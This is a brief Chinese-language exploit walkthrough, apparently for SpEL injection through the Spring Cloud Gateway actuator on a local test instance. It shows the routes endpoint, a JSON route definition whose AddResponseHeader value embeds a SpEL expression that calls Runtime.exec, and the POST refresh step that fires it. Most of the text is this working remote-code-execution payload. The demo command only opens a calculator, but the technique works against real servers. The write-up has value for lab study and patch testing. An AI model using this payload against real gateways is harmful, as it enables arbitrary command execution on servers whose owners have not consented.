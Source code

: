 查看当前路由

```
http://localhost:8081/actuator/gateway/routes
```

![image-20220407204758221](images/1.png)

构造一个包含恶意请求的路由

```
{
  "id": "test",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{T(java.lang.Runtime).getRuntime().exec('calc')}"
    }
  }],
  "uri": "https://xz.aliyun.com/"
}
```

uri这里可以随便填写

刷新网关路由

```
http://localhost:8081/actuator/gateway/refresh
```

但是这里要用POST方法去发包才能触发
